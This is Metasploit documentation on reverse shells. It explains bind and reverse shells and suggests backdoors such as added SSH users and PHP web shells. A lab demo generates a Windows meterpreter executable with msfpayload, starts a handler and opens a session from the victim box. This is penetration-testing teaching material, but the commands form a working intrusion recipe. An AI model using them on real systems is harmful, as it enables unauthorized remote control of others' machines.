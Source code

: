 % How to use a reverse shell
% Metasploit Versions 4,5

There are two popular types of shells: bind and reverse. 
Bind shell - Opens up a new service on the target machine and requires the attacker to connect to it to get a session.
Reverse shell - A reverse shell is also known as a connect-back. It requires the attacker to set up a listener first on his box, the target machine acts as a client connecting to that listener, and then finally, the attacker receives the shell. 

You can learn more about the primary use of payloads in the 5.2.4 Selecting the Payload section of the old [Metasploit Users Guide](http://cs.uccs.edu/~cs591/metasploit/users_guide3_1.pdf).

This article goes over using a reverse shell to get a session.

## List of Metasploit reverse shells
 
To get a list of reverse shells, use the `msfpayload` command. B

```bash
./msfpayload -l |grep reverse
```

As a rule of thumb, always pick a Meterpreter, because it currently provides better support of the post-exploitation Metasploit has to offer. For example, railgun, post modules, different meterpreter commands.

### Windows common reverse shell

 In Windows, the most commonly used reverse shell is `windows/meterpreter/reverse`.  You can also use `windows/meterpreter/reverse_http` or `windows/meterpreter/reverse_https` because their network traffic appears a little bit less abnormal.

### Linux common reverse shell

In Linux, you can try `linux/x86/meterpreter/reverse_tcp`, or the 64-bit one. The `linux/x86/shell_reverse_tcp` has been the most stable.

## When to use a reverse shell

If you find yourself in one of the following scenarios, then you should consider using a reverse shell:

* The target machine is behind a different private network.
* The target machine's firewall blocks incoming connection attempts to your bindshell.
* Your payload is unable to bind to the port it wants due to whatever reason.
* You can't decide what to choose.

## When a reverse shell isn't needed

Generally speaking, if you can backdoor an existing service, you may not need a reverse shell. For example, if the target machine is already running an SSH server, then you can try adding a new user to it and use that.

If the target machine is running a web server that supports a server-side programming language, then you can leave a backdoor in that language. For example, many Apache servers support PHP, then you can use a PHP "web shell". IIS servers usually support ASP or ASP.net. The Metasploit Framework offers payloads in all these languages and many others.

This also applied to VNC, remote desktop, SMB (psexec), or other remote admin tools, etc.

## How to set up for a reverse shell during payload generation

When you generate a reverse shell with either `msfpayload` or `msfvenom`, you must know how to configure the following:

* **LHOST** - This is the IP address you want your target machine to connect to. If you're in a local area network, it is unlikely your target machine can reach you unless you both are on the same network. In that case, you will have to [find out your public-facing IP address](https://www.google.com/webhp?q=ip#q=ip), and then configure your network to port-forward that connection to your box. LHOST should not be "localhost", or "0.0.0.0", or "127.0.0.1", because if you do, you're telling the target machine to connect to itself (or it may not work at all).
* **LPORT** - This the port you want your target machine to connect to.

When you set up a listener for the reverse shell, you also at least need to configure LHOST and LPORT, but slightly different meanings (different perspective):

* **LHOST** - This is the IP address you want your listener to bind to.
* **LPORT** - This is the port you want your listener to bind to.

You should make sure the listener has started first before executing the reverse shell.

## Demonstration

In this demonstration, we have two boxes:

**Box A:**

* The attacker's box that receives the payload session
* IP is: 192.168.1.123 (ifconfig)
* On the same network as the victim machine

**Box B:**

* The "victim" machine
* Windows XP
* IP is: 192.168.1.80 (ipconfig)
* On the same network as the attacker machine
* For testing purposes, no antivirus enabled.
* For testing purposes, no firewall enabled, either.

### Step 1: Generate the executable payload

On the attacker's box, run `msfpayload` or `msfvenom`: 

```bash
$ ./msfpayload windows/meterpreter/reverse_tcp lhost=192.168.1.123 lport=4444 X > /tmp/iambad.exe
Created by msfpayload (http://www.metasploit.com).
Payload: windows/meterpreter/reverse_tcp
Length: 287
Options: {"LHOST"=>"192.168.1.123", "LPORT"=>"4444"}
```

### Step 2: Copy the executable payload to box B

Box B is the victim machine. 

### Step 3: Set up the payload handler on box A

Box A is the attacker machine. 

```bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run

[*] Started reverse handler on 192.168.1.123:4444
[*] Starting the payload handler...
```

### Step 4: Double-click on the malicious executable

This step requires no further explanation.

### Step 5: View the meterpreter/payload session on box A 

```bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.123
lhost => 192.168.1.123
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > run

[*] Started reverse handler on 192.168.1.123:4444
[*] Starting the payload handler...
[*] Sending stage (770048 bytes) to 192.168.1.80
[*] Meterpreter session 1 opened (192.168.1.123:4444 -> 192.168.1.80:1138) at 2014-10-22 19:03:43 -0500
meterpreter >
```

The meterpreter prompt means you are currently interacting with the payload.
